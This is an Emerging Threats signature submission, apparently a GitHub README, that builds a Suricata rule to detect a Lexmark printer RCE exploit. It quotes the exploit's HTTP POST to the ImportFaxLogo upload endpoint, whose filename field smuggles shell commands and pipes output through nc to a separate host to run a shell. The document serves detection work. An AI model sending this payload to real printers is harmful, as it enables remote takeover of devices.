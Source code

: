 # ET Open Submission
### January 25th, 2023
### Lexmark RCE Exploit Detected


## Resources

1. https://github.com/blasty/lexmark

Lexmark RCE 0-Day as of January 10th, 2023

Without an actual Lexmark printer I am making some assumptions but the initial POST is mostly all I needed to confirm this wasn't previously being detected and can be detected based on it.

Below is the initial POST from the exploit given by blasty.

```POST /webglue/uploadfile/ImportFaxLogo HTTP/1.1
Host: 192.168.2.1
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 188
Content-Type: multipart/form-data; boundary=be74f00990243272ae1a2528f31c16e0

--be74f00990243272ae1a2528f31c16e0
Content-Disposition: form-data; name="x"; filename="x"

lol;";sh /tmp/xyz # "; id | nc 192.168.2.29 1912 | sh # 
--be74f00990243272ae1a2528f31c16e0--
```

I generated a Flowsynth PCAP from this info.

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any msg:"ET Exploit (Lexmark Malicious File Upload Detected)"; flow:established,to_server; http.method; content:"POST"; bsize:4; http.uri; content:"/webglue/uploadfile/ImportFaxLogo"; bsize:33; fast_pattern; http.request_body; content:"Content-Disposition:"; nocase; content:"name="; nocase; content:"filename="; nocase; within:255; pcre:"/(?:[\x60\x3b\x7c\x26]|%60|%3b|%7c|%26|(?:[\x3c\x3e\x24]|%3c|%3e|%24)(?:\x28|%28))/Ri"; reference:url,https://github.com/blasty/lexmark; classtype:exploit-activity; sid:1; rev:1;)```


[Dalton Job ID](https://dalton.centraliowacybersec.com/dalton/coverage/job/1ac0f73a37a2378e)

This link **should** last for 30 days. If not, just use the pcap to recreate it.

## Downloads

[Flowsynth PCAP](flowsynth.pcap)
